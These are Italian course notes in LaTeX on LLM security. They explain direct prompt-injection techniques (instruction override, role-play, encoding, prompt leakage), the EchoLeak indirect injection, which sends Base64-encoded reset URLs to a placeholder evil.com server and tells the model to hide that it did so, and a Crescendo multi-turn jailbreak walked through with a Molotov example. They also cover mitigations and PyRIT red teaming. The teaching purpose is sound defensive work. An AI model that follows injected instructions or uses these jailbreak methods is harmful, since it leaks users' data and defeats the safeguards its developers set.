\chapter{LLM Security}

\section{Nozioni di base sui LLM}

I LLM sono definiti come motori semantici, in grado di tradurre, sintetizzare 
e comparare testo. Quindi possono essere utilizzati in diversi contesti 
lavorando sul testo in linguaggio naturale.

Il prompt solitamente include le istruzioni per il task che vogliamo che 
il modello esegua e i dati su cui processare quell'operazione. Bisogna 
quindi dirgli cosa fare e su che cosa farlo. Le versioni più recenti degli 
LLM possono lavorare non solo sul testo ma su immagini, video, json e altro 
ancora.

Il \textbf{Prompt engineering} è una branca dell'ingegneria che mira a standardizzare 
la struttura di un prompt con lo scopo di migliorare quello che è il 
comportamento dell'LLM. Tipicamente si vanno a specificare:

\begin{itemize}
    \item Ruolo 
    \item Comportamento previsto 
    \item Vincoli 
    \item Output atteso 
    \item Come interpretare i dati
\end{itemize}

Le istruzioni sono fornite dagli sviluppatori del sistema tramite il \textbf{system prompt}
che definisce il comportamento di base del sistema; altre istruzioni e i dati sono forniti 
dall'utente (user prompt) e poi vengono forniti dei dati aggiuntivi esterni.

Per comprendere le vulnerabilità degli LLM, dobbiamo analizzare come elaborano 
l'input. A differenza delle architetture tradizionali (dove codice e dati sono 
rigorosamente separati), per un LLM il prompt è un semplice flusso grezzo 
di token. Il modello deve estrapolare semanticamente quali parti sono 
istruzioni di sistema e quali sono dati utente.

Un concetto cruciale è l'\textbf{Embedding}. I token (numeri) vengono mappati in uno spazio 
vettoriale dove la loro posizione geometrica riflette relazioni logiche. 
Ad esempio:

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.7\linewidth]{img/capitolo5/embedding.png}
    \label{fig:embedding}
\end{figure}

Perché questo è un problema di sicurezza? Perché un LLM può "ragionare" su 
concetti linguistici alterati. Se un attaccante offusca un comando malevolo 
usando simboli, codifiche o testo frammentato, il modello può comunque 
riconoscerne la vicinanza semantica ed eseguirlo, bypassando i classici 
filtri statici (blacklist).

Un LLM è dunque un'enorme rete neurale che accetta in ingresso un insieme di 
rappresentazioni delle parole (embeddings) e seleziona la rappresentazione 
della parola da utilizzare per l'output. Per generare l'output le reti neurali 
eseguono diversi prodotti vettoriali tra i vettori di input (gli embeddings) e 
matrici numeriche fisse che contengono i "pesi". I pesi vengono selezionati 
con cura in modo che i risultati corrispondano al testo di addestramento.

\subsection{Pre-training}

In questa fase l'LLM viene addestrato con un'enorme quantità di dati presi 
da internet. In tale fase lo scopo è quello di voler far comprendere al 
modello un certo linguaggio. Viene passata al modello una stringa con delle 
parole cancellate e si chiede al modello di prevedere quali parole vadano 
in quegli spazi; in questo modo esso riesce a comprendere le regole sintattiche 
e semantiche di un linguaggio. Le maschere utilizzate sono totalmente 
randomiche, \textbf{non sono supervisionate}.

\subsection{Fine-tuning}

Tecnica di training \textbf{supervisionata}, usando un dataset fatto da 
esperti di dominio in modo che il risultato non sia un LLM generico ma uno 
specializzato in un determinato task.

Un'alternativa a questa fase è quella dei \textbf{RAG}, il quale consente 
al modello di potersi spazializzare in maniera light in un determinato 
dominio, utilizzando alcuni documenti come verità assoluta. C'è quindi una 
\textbf{Knowledge base} di partenza che viene presa e utilizzata per 
generare una risposta basata unicamente sulla base di conoscenza. In 
questo contesto avvelenando la Knowledge base si potrebbe avvelenare 
totalmente quello che è il comportamento del sistema.

\subsection{Fase di Allineamento - RLHF}

Questo modello a questo punto sarà zeppo di dati su cui non c'è un controllo 
effettivo, potrebbe contenere dati che non rispettano certe politiche 
(contenuti offensivi, razzisti, pericolosi). In questa fase si usa un 
approccio RLHF (\textit{Reinforcement Learning from Human Feedback}) 
utilizzando dei reward per fare in modo da preferire determinate risposte 
rispetto ad altre, facendo così in modo che sia "Fair".
Serve quindi per evitare che il modello abbia un comportamento diverso da 
quello desiderato dal punto di vista della correttezza.

\section{Prompt Injection}

La \textbf{Prompt Injection} consiste nell'iniettare istruzioni non 
autorizzate nel flusso di token per sovrascrivere il comportamento 
desiderato dallo sviluppatore. Possiamo distinguere tre categorie principali.

\subsection{Direct Prompt Injection}

In questo scenario l'attaccante inserisce istruzioni direttamente nel 
prompt utente. L'obiettivo dell'attaccante è quello di contraddire le 
istruzioni del system prompt in modo che l'LLM faccia quello che l'attaccante 
dice e non quello per cui era stato pensato in fase di progetto.

L'attacco di questo tipo è concettualmente molto simile ad un XSS o un SQL 
Injection in quanto essa stessa si basa su un Injection fatta da un utente 
non fidato che rende il sistema non più sicuro, modificando le istruzioni 
attraverso i dati. In questo caso a differenza dei due attacchi menzionati 
non possiamo fare una differenza netta tra dati e istruzioni in quanto 
quello che l'LLM riceve è un insieme di token. Proprio la stessa 
architettura non permette la separazione tra dati e istruzioni. Quindi non 
c'è una vera e propria soluzione.

Esistono diverse tipologie di Direct Prompt Injection:

\begin{itemize}
    \item \textbf{Instruction Override}: sovrascrivere le istruzioni di sistema e dargliene di nuove.
    \item \textbf{Role-Play}: affidare un ruolo al modello per convincerlo a fare 
    delle cose che non potrebbe fare, come ad esempio fornire un payload.
    \item \textbf{Delimiter Confusion}: utilizzare dei delimitatori per i dati 
    (stile SQL Injection) per confondere il modello tra dati e istruzioni.
    \item \textbf{Encoding}: convertire il testo in Base64, ROT13, ecc può 
    effettivamente bypassare i controlli.
    \item \textbf{Payload Splitting}: dividere in più parti la richiesta malevola 
    all'interno del prompt in modo da evitare che venga rilevata dai controlli.
    \item \textbf{Prompt Leakage}: invitare il modello a rivelare le informazioni
    riservate del system prompt.
\end{itemize}

\subsection{Indirect Prompt Injection}

L'attacco avviene quando l'agente LLM processa contenuti esterni non 
attendibili (email, documenti via RAG, risultati web) che contengono 
payload malevoli nascosti.

Esempio di \textit{EchoLeak} (CVE-2025-32711): Un utente chiede al bot di 
riassumere le email. Tuttavia l'email malevola contiene istruzioni nascoste che 
ordinano al bot di cercare altre email con oggetto "password reset", 
estrarre gli URL, codificarli in Base64 e inviarli a un server controllato 
dall'attaccante visitando: 
\begin{gather*}
        \text{http://evil.com/\$ENCODED\_URL}
\end{gather*}
Infine, l'LLM è istruito a tacere su questa operazione nel riassunto.

\subsection{Multi-turn Attacks (Crescendo)}

Questi attacchi superano i controlli RLHF diluendo l'intento malevolo su 
più interazioni conversazionali, sfruttando la memoria dell'LLM.

Esempio \textit{Molotov}: Invece di chiedere direttamente "\textit{Come costruire 
una bomba Molotov?}" (che verrebbe bloccato), l'attaccante chiede prima la 
storia della bottiglia incendiaria, poi il suo uso nella Guerra d'Inverno, 
e infine come venisse materialmente assemblata dai soldati all'epoca. 
L'LLM, percependo il contesto come storico/benigno, fornisce i componenti 
e le istruzioni esatte.

\section{Mitigazioni}

Dato che la Prompt Injection è una limitazione intrinseca degli LLM, non 
esiste una singola "\textit{patch}" risolutiva; si usa un approccio di 
\textit{defense-in-depth}. Sono infatti nate alcune tecniche di difesa che 
consentono di mitigare la situazione:

\begin{itemize}
    \item \textbf{Hardening the prompt}: consiste nel ricordare al modello 
    che non dovrebbe dare determinate informazioni, che dovrebbe comportarsi 
    in maniera etica e responsabile. Una sorta di reminder.
    \item \textbf{Data Spotlighting}: consiste nell'aiutare l'LLM a distinguere i dati 
    dalle istruzioni usando delimitatori forti nel prompt di sistema. Ad esempio:
    \begin{itemize}
        \item Racchiudere il testo utente tra marcatori <<< \{\{text\}\} >>>.
        \item Interfoliare un carattere speciale $\wedge$ tra ogni parola del testo non attendibile.
    \end{itemize}
    \item \textbf{Guardrails (Filtri Programmabili)}: le blacklist statiche 
    sono inefficaci a causa della flessibilità del linguaggio naturale e 
    delle tecniche di offuscamento. Le soluzioni moderne (come \textit{NeMo Guardrails} o \textit{LangChain4j}) 
    permettono di validare programmaticamente input e output.

    Esempio con \textit{Colang}: Colang è un linguaggio per definire flussi 
    di conversazione deterministici. Si definiscono "forme canoniche" 
    (es. "\textit{Quali fondi possiedo?}") e l'LLM mappa le query degli 
    utenti (es. "\textit{Il fondo X è un buon investimento?}") nello 
    spazio vettoriale semantico per decidere quale regola applicare in 
    modo sicuro.
    \item \textbf{LLM Isolation Patterns}: applica il principio del minimo 
    privilegio segmentando le intelligenze artificiali:
    \begin{enumerate}
        \item \textbf{Dual LLM}: un \textit{Privileged LLM} (fidato) gestisce il 
        ragionamento logico e le API sensibili. Se serve leggere un'email 
        esterna, delega il compito a un \textit{Quarantined LLM} (isolato e senza 
        accesso ai tool), che legge i dati non attendibili ed estrae solo 
        le variabili strettamente necessarie, impedendo l'esecuzione di 
        comandi malevoli nascosti nel testo.
        \item \textbf{Code-Then-Execute}: invece di far chiamare i tool 
        direttamente all'LLM in tempo reale, il modello fiduciario genera 
        uno script Python deterministico. Lo script orchestra i dati e 
        l'LLM in quarantena all'interno di una sandbox sicura, prevenendo 
        l'esfiltrazione.
    \end{enumerate}
\end{itemize}

\section{Testing Automatizzato: AI Red Teaming}

Per validare le difese, è necessario simulare costantemente gli attacchi. 
Citiamo a tal proposito \textbf{PyRIT} (Python Risk Identification Tool), 
un framework open-source per automatizzare l'AI Red Teaming.

Il suo funzionamento si basa su una pipeline complessa:

\begin{enumerate}
    \item Carica un dataset di prompt malevoli di base (es. istruzioni illegali).
    \item Usa dei \textit{Converters} per alterare il payload. Ad esempio, 
    il \textit{Base64Converter} o traduzioni semantiche tramite un altro 
    LLM avversario.
    \item Invia l'attacco generato al target (es. via API).
    \item Valuta l'efficacia tramite \textit{Scorers}. PyRIT utilizza un 
    \textit{Self-Ask LLM Scorer} (un altro LLM con funzione di giudice) 
    per determinare programmaticamente se la risposta del target ha 
    effettivamente assecondato la richiesta malevola.
\end{enumerate}